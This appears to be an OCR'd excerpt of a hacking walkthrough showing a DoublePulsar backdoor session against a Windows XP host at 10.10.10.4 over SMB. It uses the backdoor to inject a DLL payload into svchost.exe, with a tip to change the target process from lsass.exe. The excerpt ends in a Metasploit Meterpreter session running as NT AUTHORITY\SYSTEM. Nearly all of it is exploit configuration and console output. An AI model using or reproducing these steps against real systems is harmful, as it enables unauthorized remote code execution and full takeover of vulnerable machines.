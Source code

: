 ```
[?] Architecture [0] :
[*]  Function :: Operation for backdoor to perform

    0) OutputInstall     Only output the install shellcode to a binary file on disk.
    1) Ping              Test for presence of backdoor
*-> 2) RunDLL            Use an APC to inject a DLL into a user mode process.
    3) RunShellcode      Run raw shellcode
    4) Uninstall         Remove's backdoor from system

[?] Function [0] : 2
[+] Set Function => RunDLL
[*]  DllPayload :: DLL to inject into user mode
[?] DllPayload [] :
[*]  DllPayload :: DLL to inject into user mode
[?] DllPayload [] : C:\shell.dll
[+] Set DllPayload => C:\shell.dll
[*]  DllOrdinal :: The exported ordinal number of the DLL being injected to call
[?] DllOrdinal [1] :
[*]  ProcessName :: Name of process to inject into
[?] ProcessName [lsass.exe] : svchost.exe    
[+] Set ProcessName => svchost.exe
[*]  ProcessCommandLine :: Command line of process to inject into
[?] ProcessCommandLine [] :

[!] Preparing to Execute Doublepulsar
[*] Redirection OFF
[+] Configure Plugin Local Tunnels
[+] Local Tunnel - local-tunnel-1
[?] Destination IP [10.10.10.4] :
[?] Destination Port [445] :
[+] (TCP) Local 10.10.10.4:445

[+] Configure Plugin Remote Tunnels
```

  It’s important to change the ProcessName from lsass.exe to svchost.exe !!!

```
[?] Execute Plugin? [Yes] :
[*] Executing Plugin
[+] Selected Protocol SMB
[.] Connecting to target...
[+] Connected to target, pinging backdoor...
    [+] Backdoor returned code: 10 - Success!
    [+] Ping returned Target architecture: x86 (32-bit) - XOR Key: 0x00811F87
    SMB Connection string is: Windows 5.1
    Target OS is: XP x86
    [+] Backdoor installed
    [+] DLL built
    [.] Sending shellcode to inject DLL
    [+] Backdoor returned code: 10 - Success!
    [+] Backdoor returned code: 10 - Success!
    [+] Backdoor returned code: 10 - Success!
    [+] Command completed successfully
[+] Doublepulsar Succeeded
Back to metasploit:

[*] Sending stage (179267 bytes) to 10.10.10.4
[*] Meterpreter session 1 opened

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM :D
```
